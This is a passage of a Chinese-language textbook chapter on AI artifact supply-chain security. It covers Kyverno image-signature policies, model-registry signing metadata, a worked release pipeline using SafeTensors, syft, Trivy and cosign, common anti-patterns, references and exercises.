| `subject` | 任何 attestation | 被证明的 artifact 的 digest |
| `predicateType` | attestation | attestation 类型（SLSA / SBOM / custom） |
| `completeness` | SLSA provenance | 参数、环境、材料是否完整记录 |
| `reproducible` | SLSA provenance | 构建是否可复现 |

---

## 12d.11 准入控制：Kyverno 与 OPA Gatekeeper

### 12d.11.1 Admission 验证流程



### 12d.11.2 Kyverno 策略示例

```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-signed-images
spec:
  validationFailureAction: Enforce
  background: false
  rules:
    - name: check-image-signature
      match:
        any:
          - resources:
              kinds: [Pod]
              namespaces: [production, staging]
      verifyImages:
        - imageReferences:
            - "ghcr.io/myorg/*"
          attestors:
            - count: 1
              entries:
                - keyless:
                    subject: "https://github.com/myorg/*/github/workflows/build.yml@refs/heads/main"
                    issuer: "https://token.actions.githubusercontent.com"
                    rekor:
                      url: https://rekor.sigstore.dev
          attestations:
            - predicateType: https://cyclonedx.org/bom
              conditions:
                - all:
                    - key: "{{ specVersion }}"
                      operator: GreaterThanOrEquals
                      value: "1.4"
```

> **工程边界**：Kyverno 镜像验证需要网络访问 Rekor（公共实例）或私有 Rekor。如果集群处于网络受限环境，需要配置私有 Rekor 或使用 long-lived key 签名（不依赖 Rekor）。准入 webhook 失败会导致 Pod 无法创建，需配置 failurePolicy 和降级策略，避免 webhook 本身故障阻断所有部署。

---

## 12d.12 与 Model Registry 协同

### 12d.12.1 发布门禁集成



### 12d.12.2 模型 Registry 中应存储的签名相关元数据

```yaml
model_artifact:
  name: llm-7b-chat
  version: "2026-05-01"
  format: safetensors
  files:
    - path: model.safetensors
      sha256: "a1b2c3..."
      size_bytes: 14336000000
      cosign_bundle: model.safetensors.bundle
      provenance_bundle: model.safetensors.provenance.bundle
  attestation:
    training_job_id: "train-20260501-001"
    dataset_version: "dataset-v4.2"
    code_revision: "abc123def456"
    builder: "github.com/myorg/train-pipeline/.github/workflows/train.yml"
    slsa_level: "L2"
  security:
    format_verified: true          # safetensors 格式验证通过
    safety_eval_passed: true       # 安全评测通过
    cosign_verified: true          # 签名验证通过
    vulnerability_scan: "PASS"     # 附属容器镜像扫描通过
  lifecycle:
    status: production
    signed_off_by: "release-bot@myorg.com"
    sign_off_timestamp: "2026-05-01T10:00:00Z"
```

---

## 12d.13 Worked Example：企业级 AI 制品发布管道

本节构建一套端到端的企业级 AI 制品发布管道，涵盖从训练完成到生产部署的完整链路，含密钥管理、审计日志、入侵检测。

### 12d.13.1 场景设定

- 组织：500 人 AI 公司，内部部署 Kubernetes 集群（on-prem + AWS EKS）
- 发布频率：每周 1-2 次模型更新，每月 1-2 次容器镜像更新
- 安全要求：SLSA L2，所有生产制品必须有 cosign 签名，模型权重仅 SafeTensors
- 合规要求：SBOM 存档，漏洞扫描结果存档，签名元数据存档 3 年

### 12d.13.2 基础设施组件

```
┌─────────────────────────────────────────────────────────────────┐
│  签名基础设施                                                      │
│  • Private Rekor（rekor.internal.myorg.com）                     │
│  • Private Fulcio（fulcio.internal.myorg.com）                   │
│  • OIDC Provider：GitHub Enterprise                              │
│  • KMS：AWS KMS（用于 long-lived key 作为根信任备用）               │
└─────────────────────────────────────────────────────────────────┘
┌─────────────────────────────────────────────────────────────────┐
│  制品存储                                                         │
│  • Container Registry：Harbor（内部）+ ECR（AWS 部署）              │
│  • Model Registry：内部 MLflow + S3（权重存储）                    │
│  • SBOM 存档：S3 + Athena（可查询）                                │
└─────────────────────────────────────────────────────────────────┘
┌─────────────────────────────────────────────────────────────────┐
│  策略执行                                                         │
│  • Kubernetes：Kyverno（镜像签名验证）                              │
│  • Model Registry：自研发布门禁（Python + cosign CLI）             │
│  • 审计日志：CloudTrail + 内部 SIEM                                │
└─────────────────────────────────────────────────────────────────┘
```

### 12d.13.3 完整发布流程

**Step 1：训练完成，触发发布流水线**

```bash
# 训练 Job 完成后，CI 系统（GitHub Actions）接收事件
# 环境变量由 GitHub Actions OIDC 自动注入，无需存储 secret

TRAINING_JOB_ID="train-20260501-001"
DATASET_VERSION="dataset-v4.2"
CODE_REVISION="${GITHUB_SHA}"
MODEL_VERSION="2026-05-01-rc1"
```

**Step 2：格式转换和基础检查**

```bash
# 转换为 SafeTensors（在隔离的无网络 Job 中运行）
python scripts/convert_checkpoint.py \
  --input "s3://training-bucket/checkpoints/${TRAINING_JOB_ID}/final/" \
  --output "s3://staging-bucket/models/${MODEL_VERSION}/" \
  --format safetensors \
  --verify-no-pickle     # 验证输出不含任何 pickle 对象

# 下载到本地并验证
aws s3 sync "s3://staging-bucket/models/${MODEL_VERSION}/" ./staging/

# 验证格式安全性（使用 safetensors 库解析，不加载张量）
python -c "
from safetensors import safe_open
with safe_open('./staging/model.safetensors', framework='pt') as f:
    print('Keys:', list(f.keys())[:5])
    print('Metadata:', f.metadata())
print('Format verification: PASSED')
"
```

**Step 3：SBOM 生成和漏洞扫描**

```bash
# 生成模型包 SBOM（包含 Python 依赖）
syft dir:./staging/ -o cyclonedx-json > ./staging/sbom.json

# 对推理镜像生成 SBOM
syft harbor.internal.myorg.com/inference/llm-server:${MODEL_VERSION} \
  -o cyclonedx-json > ./staging/image-sbom.json

# 漏洞扫描（Critical/High 漏洞阻断发布）
trivy image \
  --exit-code 1 \
  --severity CRITICAL,HIGH \
  --format sarif \
  --output ./staging/trivy-results.sarif \
  harbor.internal.myorg.com/inference/llm-server:${MODEL_VERSION}

echo "Scan result: $?"
```

**Step 4：安全评测**

```bash
# 运行安全评测套件（对抗样本、越权测试、后门检测基线）
python scripts/safety_eval.py \
  --model-path ./staging/model.safetensors \
  --eval-suite safety-baseline-v3 \
  --output ./staging/safety-report.json \
  --pass-threshold 0.95

SAFETY_PASS=$(jq '.overall_pass' ./staging/safety-report.json)
if [ "$SAFETY_PASS" != "true" ]; then
  echo "Safety evaluation FAILED"
  exit 1
fi
```

**Step 5：cosign 签名和 attestation**

```bash
# 配置指向私有 Sigstore 实例
export COSIGN_REKOR_URL=https://rekor.internal.myorg.com
export COSIGN_FULCIO_URL=https://fulcio.internal.myorg.com
export SIGSTORE_OIDC_ISSUER=https://github.myorg.com/oauth2/token

# 对权重文件签名
cosign sign-blob --yes \
  --bundle ./staging/model.safetensors.bundle \
  ./staging/model.safetensors

# 生成并附加 provenance attestation
cat > ./staging/model-provenance.json << EOF
{
  "_type": "https://in-toto.io/Statement/v0.1",
  "predicateType": "https://slsa.dev/provenance/v0.2",
  "subject": [{
    "name": "model.safetensors",
    "digest": {"sha256": "$(sha256sum ./staging/model.safetensors | awk '{print $1}')"}
  }],
  "predicate": {
    "builder": {"id": "${GITHUB_SERVER_URL}/${GITHUB_REPOSITORY}/actions/runs/${GITHUB_RUN_ID}"},
    "buildType": "https://github.com/Attestations/GitHubActionsWorkflow@v1",
    "invocation": {
      "configSource": {
        "uri": "${GITHUB_SERVER_URL}/${GITHUB_REPOSITORY}",
        "digest": {"sha1": "${GITHUB_SHA}"},
        "entryPoint": ".github/workflows/publish-model.yml"
      },
      "parameters": {
        "training_job_id": "${TRAINING_JOB_ID}",
        "dataset_version": "${DATASET_VERSION}",
        "model_version": "${MODEL_VERSION}"
      }
    },
    "metadata": {
      "buildStartedOn": "$(date -u +%Y-%m-%dT%H:%M:%SZ)",
      "completeness": {"parameters": true, "environment": false, "materials": false},
      "reproducible": false
    }
  }
}
EOF

cosign attest-blob --yes \
  --predicate ./staging/model-provenance.json \
  --type slsaprovenance02 \
  --bundle ./staging/model.safetensors.provenance.bundle \
  ./staging/model.safetensors

# 对推理镜像签名
cosign sign --yes \
  harbor.internal.myorg.com/inference/llm-server:${MODEL_VERSION}

# 附加 SBOM 到镜像
cosign attest --yes \
  --predicate ./staging/image-sbom.json \
  --type cyclonedx \
  harbor.internal.myorg.com/inference/llm-server:${MODEL_VERSION}
```

**Step 6：Model Registry 门禁检查**

```bash
# 验证签名有效性
cosign verify-blob \
  --bundle ./staging/model.safetensors.bundle \
  --certificate-identity "${GITHUB_SERVER_URL}/${GITHUB_REPOSITORY}/.github/workflows/publish-model.yml@refs/heads/main" \
  --certificate-oidc-issuer "https://github.myorg.com/oauth2/token" \
  --rekor-url "https://rekor.internal.myorg.com" \
  ./staging/model.safetensors

# 验证通过后推送到 Model Registry
aws s3 sync ./staging/ "s3://model-registry/models/${MODEL_VERSION}/" \
  --metadata "signed=true,slsa_level=L2,safety_eval=passed"

# 在 MLflow Model Registry 中注册版本
python scripts/register_model.py \
  --name "llm-7b-chat" \
  --version "${MODEL_VERSION}" \
  --artifact-uri "s3://model-registry/models/${MODEL_VERSION}/" \
  --status "staging" \
  --cosign-bundle-path "./staging/model.safetensors.bundle" \
  --provenance-bundle-path "./staging/model.safetensors.provenance.bundle" \
  --safety-report-path "./staging/safety-report.json"
```

**Step 7：生产部署和 Admission 验证**

```bash
# 部署到 Kubernetes（Kyverno 自动验证镜像签名）
kubectl apply -f - << EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: llm-server-${MODEL_VERSION//./-}
  namespace: production
  labels:
    model-version: "${MODEL_VERSION}"
    slsa-level: "L2"
spec:
  replicas: 3
  selector:
    matchLabels:
      app: llm-server
  template:
    metadata:
      labels:
        app: llm-server
        model-version: "${MODEL_VERSION}"
    spec:
      containers:
        - name: server
          image: harbor.internal.myorg.com/inference/llm-server:${MODEL_VERSION}
          # Kyverno 策略在此验证镜像签名，未签名或签名无效则 Pod 创建被拒绝
          env:
            - name: MODEL_S3_PATH
              value: "s3://model-registry/models/${MODEL_VERSION}/"
            - name: MODEL_VERSION
              value: "${MODEL_VERSION}"
          volumeMounts:
            - name: model-cache
              mountPath: /models
      initContainers:
        - name: verify-and-download-model
          image: harbor.internal.myorg.com/tools/cosign-downloader:latest
          command:
            - /bin/sh
            - -c
            - |
              # 下载模型权重和签名 bundle
              aws s3 cp s3://model-registry/models/${MODEL_VERSION}/model.safetensors /models/
              aws s3 cp s3://model-registry/models/${MODEL_VERSION}/model.safetensors.bundle /models/
              # 验证权重签名
              cosign verify-blob \
                --bundle /models/model.safetensors.bundle \
                --certificate-identity "${GITHUB_SERVER_URL}/${GITHUB_REPOSITORY}/.github/workflows/publish-model.yml@refs/heads/main" \
                --certificate-oidc-issuer "https://github.myorg.com/oauth2/token" \
                --rekor-url "https://rekor.internal.myorg.com" \
                /models/model.safetensors || exit 1
              echo "Model signature verified"
EOF
```

**Step 8：审计日志记录**

```bash
# 所有发布操作记录到审计日志系统
python scripts/audit_log.py \
  --event "model_published" \
  --model-version "${MODEL_VERSION}" \
  --actor "${GITHUB_ACTOR}" \
  --workflow-run "${GITHUB_RUN_ID}" \
  --cosign-rekor-id "$(cat ./staging/model.safetensors.bundle | jq -r '.rekorBundle.logIndex')" \
  --training-job "${TRAINING_JOB_ID}" \
  --dataset-version "${DATASET_VERSION}" \
  --code-revision "${CODE_REVISION}" \
  --safety-eval-passed "true" \
  --timestamp "$(date -u +%Y-%m-%dT%H:%M:%SZ)"
```

### 12d.13.4 关键设计决策

| 决策点 | 选择 | 理由 |
|---|---|---|
| Rekor 实例 | Private Rekor | CI/CD claims 含内部 workflow 路径，不适合公开 |
| 签名方式 | Keyless + OIDC | 无长期私钥，身份与 CI job 绑定，自动撤销 |
| 模型格式 | SafeTensors | 消除加载时代码执行风险 |
| 模型签名验证时机 | initContainer 中，Pod 启动时 | 确保运行时使用的权重与签名匹配 |
| SLSA 等级 | L2 | L3 需要 hermetic build，ML 依赖复杂，代价过高 |
| 漏洞阻断策略 | Critical 阻断，High 告警 | High 漏洞常有无可用修复版本，完全阻断会卡发布 |

---

## 12d.14 常见反模式与工程边界

> **反模式 1：用 tag 代替 digest 做准入验证。** `image: myregistry/model-server:production` 中 `production` tag 可以随时被推送新内容覆盖，准入检查 tag 毫无意义。始终使用 `image: myregistry/model-server@sha256:...` 或在 Kyverno 策略中强制 mutate tag 为 digest。

> **反模式 2：只签名不验证。** 如果 admission webhook 以 `failurePolicy: Ignore` 运行，或者 webhook 可以被绕过（如通过 `kubectl apply --dry-run=server` 调试路径），签名形同虚设。签名的价值在于验证端的强制执行。

> **反模式 3：把 SafeTensors 等同于"安全的模型"。** SafeTensors 消除了加载时执行任意代码的风险，但不能证明模型没有训练数据后门、不能防止 tokenizer 配置被篡改、不能保证模型输出安全。SafeTensors 是格式安全，不是模型安全的全集。

> **反模式 4：SBOM 只生成不存档。** SBOM 的价值在于事后：当新 CVE 发布时，能快速查询哪些已部署产物受影响。如果 SBOM 不存档，就无法回溯。应把所有已发布版本的 SBOM 存入可查询的系统（如 S3 + Athena）。

> **反模式 5：在生产镜像的 Dockerfile 里包含 `pip install -r requirements.txt`（无锁文件）。** 每次构建可能解析出不同版本的依赖，使构建不可复现，且 SBOM 反映的是某次构建时的快照，再次构建得到的 SBOM 可能不同。始终使用 `pip install -r requirements.lock` 或 `uv sync`。

> **反模式 6：CI/CD 使用长期 registry token。** 长期 token 一旦泄露，攻击者可以用受信凭证推送恶意镜像并获得合法签名。使用 OIDC + Workload Identity 获取短时 token，每次 CI run 独立、自动过期。

---

## 本章小结

| 机制 | 解决的问题 | 不能解决的问题 |
|---|---|---|
| cosign 签名 | 产物在某时刻由某可信身份签署 | 构建过程是否安全、模型是否有后门 |
| Rekor 透明日志 | 签名历史不可篡改 | 签名者身份本身是否被攻陷 |
| SLSA provenance | 构建过程可追溯 | 训练数据安全性 |
| SBOM | 产物成分可查 | 未知漏洞、恶意逻辑 |
| SafeTensors | 消除加载时代码执行 | 模型行为安全性、tokenizer 后门 |
| Trivy / Grype 扫描 | 已知 CVE 发现 | 新型攻击、Logic bomb |
| Kyverno / OPA 准入 | 策略强制执行 | 策略定义是否完整覆盖攻击面 |

---

## 深度参考阅读

### 规范与框架

1. **SLSA 官方规范**：[https://slsa.dev/spec/v1.0/](https://slsa.dev/spec/v1.0/) — SLSA L0-L3 要求、provenance 格式、构建级别定义
2. **Sigstore 文档**：[https://docs.sigstore.dev/](https://docs.sigstore.dev/) — cosign、Rekor、Fulcio 技术规范
3. **in-toto 规范**：[https://in-toto.io/in-toto-spec.html](https://in-toto.io/in-toto-spec.html) — supply chain layout 和 link 元数据格式
4. **CycloneDX 规范**：[https://cyclonedx.org/specification/overview/](https://cyclonedx.org/specification/overview/) — SBOM 格式，含 ML 模型扩展
5. **SPDX 规范**：[https://spdx.github.io/spdx-spec/](https://spdx.github.io/spdx-spec/) — 开源许可证合规 SBOM 格式

### 学术论文与技术报告

6. **SafeTensors 格式描述**：[https://huggingface.co/docs/safetensors/index](https://huggingface.co/docs/safetensors/index) — 格式设计、安全保证和性能特征
7. **Pickles Are Dangerous**：研究展示 PyTorch pickle 反序列化攻击面，[arXiv:2303.13714](https://arxiv.org/abs/2303.13714)
8. **Supply-chain Levels for Software Artifacts（SLSA 白皮书）**：[https://security.googleblog.com/2021/06/introducing-slsa-end-to-end-framework.html](https://security.googleblog.com/2021/06/introducing-slsa-end-to-end-framework.html)
9. **in-toto: Providing farm-to-table guarantees for bits and bytes**：USENIX Security 2019，Torres-Arias et al.
10. **BadNets: Identifying Vulnerabilities in Machine Learning Model Supply Chains**：Gu et al., 2019（训练数据后门攻击奠基论文）

### 工具文档

11. **cosign 使用指南**：[https://github.com/sigstore/cosign](https://github.com/sigstore/cosign)
12. **Kyverno 镜像验证**：[https://kyverno.io/docs/writing-policies/verify-images/](https://kyverno.io/docs/writing-policies/verify-images/)
13. **Trivy 文档**：[https://aquasecurity.github.io/trivy/](https://aquasecurity.github.io/trivy/)
14. **syft SBOM 生成工具**：[https://github.com/anchore/syft](https://github.com/anchore/syft)
15. **GitHub Actions Artifact Attestations**：[https://docs.github.com/en/actions/security-guides/using-artifact-attestations-to-establish-provenance-for-builds](https://docs.github.com/en/actions/security-guides/using-artifact-attestations-to-establish-provenance-for-builds)

---

## 练习题

**12d-1**（理解）解释为什么"从 HuggingFace 官方页面下载模型"不能证明权重安全。需要哪些额外机制才能构建密码学可验证的信任链？

**12d-2**（分析）给定一个 `.pt` 文件，描述攻击者如何在不改变文件正常功能的前提下注入恶意 payload。SafeTensors 格式是否能防止这种攻击？为什么？

**12d-3**（设计）解释 cosign keyless 签名的完整流程：OIDC token 如何转化为签名证书？Rekor 日志在验证时起什么作用？如果 Rekor 不可用，签名验证是否还能进行？

**12d-4**（对比）比较 SLSA L1 和 L3 的核心差异。一个使用 GitHub Actions 的团队，如何在不改变构建逻辑的情况下从 L1 升级到 L2？

**12d-5**（实践）为一个包含 PyTorch、transformers、vllm 的推理镜像生成 CycloneDX SBOM，并用 Trivy 扫描漏洞。描述如何处理"漏洞有 CVE 但无可用修复版本"的情况。

**12d-6**（工程）设计一个 Kyverno ClusterPolicy，要求 `production` 命名空间中的所有 Pod 必须使用由 `github.com/myorg/*` 的 GitHub Actions 工作流签名的镜像。写出策略的关键字段。

**12d-7**（威胁建模）一个 AI 平台允许用户上传自己的 tokenizer 配置文件（JSON 格式）并与内部模型权重组合使用。描述至少 3 种通过 tokenizer 配置实施的攻击，以及对应的防御措施。

**12d-8**（架构）绘制一个完整的 attestation chain，从 git commit 到 Kubernetes Pod 运行，标注每个节点产生/消费的证据类型和密码学机制。

**12d-9**（运维）你的 Private Rekor 实例因磁盘满停止服务。此时 CI 流水线中的 cosign sign 命令会失败，导致发布中断。描述降级策略：如何在 Rekor 不可用时继续发布，同时保持可接受的安全保证？

**12d-10**（分析）SBOM 包含了产物的所有组件。当一个新的 CVE（如 CVSS 9.8）发布时，描述平台如何利用已存档的 SBOM 快速确定哪些已部署模型服务受影响，并触发紧急修复流程。

**12d-11**（综合）一个模型发布后，安全团队发现训练数据集中包含有毒样本（可能导致模型在特定输入下输出恶意内容）。描述：（1）供应链签名体系能否检测到这个问题？（2）该场景中哪些安全机制有效，哪些无效？（3）应该加入哪些额外的防护层？

**12d-12**（项目）为一个团队设计一个 12 周的供应链安全提升计划，从"无任何签名机制"到"SLSA L2 + 全制品签名 + 准入控制"。列出每个阶段的目标、工具、验收标准和常见障碍。
